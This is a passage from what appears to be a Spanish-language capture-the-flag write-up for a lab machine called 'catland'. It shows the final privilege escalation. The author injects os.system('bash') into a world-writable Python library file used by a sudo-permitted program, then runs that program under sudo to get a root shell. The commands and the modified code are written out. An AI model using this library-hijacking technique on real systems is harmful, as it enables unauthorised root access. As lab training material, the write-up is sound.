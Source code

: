 ```

if __name__ == '__main__':
    sys.argv[0] = re.sub(r'(-script\.pyw?|\.exe)?$', '', sys.argv[0])
    sys.exit(load_entry_point('rtv==1.27.0', 'console_scripts', 'rtv')())
```

Tras probar distintas cosas, encuentro que "metadata.py" utilizado en "rtv" tiene permisos de escritura.

```
laura@catland:/$ find / -name metadata* -ls 2>/dev/null
   932760     20 -rw-r--rw-   1 root     root        18210 Feb 28  2021 /usr/lib/python3.9/importlib/metadata.py
```

Edito "metadata.py" y añado una linea que ejecute el comando "bash" en la función "distribution" (usada en rtv).

```
def distribution(distribution_name):
    """Get the ``Distribution`` instance for the named package.

    :param distribution_name: The name of the distribution package as a string.
    :return: A ``Distribution`` instance (or subclass thereof).
    """
    os.system('bash')
    return Distribution.from_name(distribution_name)
```

Una vez guardado el archivo solo queda hacer uso de los poderes de "sudo" y la máquina estaría resuelta.

```
laura@catland:~$ sudo rtv --help
root@catland:/home/laura# whoami
root
root@catland:/home/laura# :)
```

Muchas gracias a **Cromiphi** por esta máquina.
